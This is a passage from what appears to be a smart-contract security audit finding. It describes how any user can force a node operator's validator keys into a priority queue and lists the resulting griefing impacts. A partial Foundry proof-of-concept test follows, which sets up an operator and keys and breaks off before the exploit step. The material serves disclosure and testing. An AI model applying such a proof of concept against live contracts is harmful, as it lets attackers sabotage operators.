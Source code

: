 Control loss: Operators lose control over when to use their unique priority queue migration
Targeted griefing: Attackers can specifically sabotage competitors or target operators
Competitive disadvantage: Operators forced to use priority at suboptimal moments lose queue positioning advantages

## Proof of Code
```solidity
function test_RandomUserCanForceMigrateToPriorityQueue() public {
    // Create a node operator with a legitimate owner using permissionless gate
    address nodeOperatorOwner = makeAddr("nodeOperatorOwner");
    console.log("Node Operator Owner:", nodeOperatorOwner);

    // Give owner enough ETH for bond
    vm.deal(nodeOperatorOwner, 100 ether);

    // Create keys 
    bytes memory pubkey = bytes.concat(new bytes(16), abi.encodePacked(keccak256("migrationkey")));
    bytes memory signature = bytes.concat(new bytes(64), abi.encodePacked(keccak256("migrationsig")));

    vm.startPrank(nodeOperatorOwner);
    uint256 nodeOperatorId = permissionlessGate.addNodeOperatorETH{value: 50 ether}(
        1, // keysCount
        pubkey,
        signature,
        NodeOperatorManagementProperties({
            managerAddress: nodeOperatorOwner,
            rewardAddress: nodeOperatorOwner,
            extendedManagerPermissions: false
        }),
        address(0) // no referrer
    );
    vm.stopPrank();

    console.log("Created Node Operator ID:", nodeOperatorId);

    // Add more keys to have something significant to migrate
    bytes memory additionalPubkey = bytes.concat(new bytes(16), abi.encodePacked(keccak256("migrationkey2")));
    bytes memory additionalSignature = bytes.concat(new bytes(64), abi.encodePacked(keccak256("migrationsig2")));

    vm.startPrank(nodeOperatorOwner);
    uint256 required = accounting.getRequiredBondForNextKeys(nodeOperatorId, 1);
    vm.deal(nodeOperatorOwner, required);
    
    csm.addValidatorKeysETH{value: required}(
        nodeOperatorOwner,
        nodeOperatorId,
        1,
        additionalPubkey,
        additionalSignature
    );
    vm.stopPrank();

    // Setup a priority queue configuration 
    uint32 PRIORITY_QUEUE = 0;
    uint32 MAX_DEPOSITS = 10;
    
    // Find someone with admin rights to the parameters registry
    address adminAddress;
    try parametersRegistry.getRoleMember(parametersRegistry.DEFAULT_ADMIN_ROLE(), 0) returns (address admin) {
```